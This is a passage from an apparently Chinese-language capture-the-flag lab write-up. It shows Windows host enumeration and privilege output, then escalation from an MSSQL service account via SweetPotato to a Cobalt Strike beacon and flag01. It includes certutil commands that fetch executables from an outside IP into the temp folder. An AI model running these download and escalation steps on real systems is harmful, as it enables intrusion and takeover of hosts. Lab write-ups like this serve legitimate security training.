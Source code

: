 ```
                  [02]: KB4049065
                  [03]: KB4486129
                  [04]: KB4486131
                  [05]: KB5014026
                  [06]: KB5013952
网卡:             安装了 1 个 NIC。
                  [01]: Red Hat VirtIO Ethernet Adapter
                      连接名:      以太网 2
                      启用 DHCP:   是
                      DHCP 服务器: 172.22.255.253
                      IP 地址
                        [01]: 172.22.8.18
                        [02]: fe80::95df:a060:ade9:6939
Hyper-V 要求:     已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
```

whoami /priv

```
特权信息
----------------------

特权名                        描述                 状态  
============================= ==================== ======
SeAssignPrimaryTokenPrivilege 替换一个进程级令牌   已禁用
SeIncreaseQuotaPrivilege      为进程调整内存配额   已禁用
SeChangeNotifyPrivilege       绕过遍历检查         已启用
SeImpersonatePrivilege        身份验证后模拟客户端 已启用
SeCreateGlobalPrivilege       创建全局对象         已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集       已禁用
```

因为是 mssql 服务账户, 考虑 Potato 系列提权

这里被坑了一把, 一开始用的 Pipe Potato 反弹 cs 上线, 结果 hashdump, mimikatz 一直拒绝访问

最后换成了 SweetPotato, 索性把各种 exe 都下载下来直接在 MDUT 里面运行

```shell
certutil -urlcache -split -f http://1.117.70.230:65221/a.exe C:\windows\temp\a.exe
certutil -urlcache -split -f http://1.117.70.230:65221/SweetPotato.exe C:\windows\temp\SweetPotato.exe
```

![image-20230730160340116](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301603155.png)

通过 SweetPotato 上线 cs

![image-20230730160859932](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301608966.png)

flag01 在 Administrator 家目录下

```
 _________  ________  ________  ___       ___  _______   ________   _________   
|\___   ___\\   ____\|\   ____\|\  \     |\  \|\  ___ \ |\   ___  \|\___   ___\ 
\|___ \  \_\ \  \___|\ \  \___|\ \  \    \ \  \ \   __/|\ \  \\ \  \|___ \  \_| 
     \ \  \ \ \_____  \ \  \    \ \  \    \ \  \ \  \_|/_\ \  \\ \  \   \ \  \  
      \ \  \ \|____|\  \ \  \____\ \  \____\ \  \ \  \_|\ \ \  \\ \  \   \ \  \ 
       \ \__\  ____\_\  \ \_______\ \_______\ \__\ \_______\ \__\\ \__\   \ \__\
        \|__| |\_________\|_______|\|_______|\|__|\|_______|\|__| \|__|    \|__|
              \|_________|                                                      


Getting flag01 is easy, right?

flag01: flag{REDACTED}


```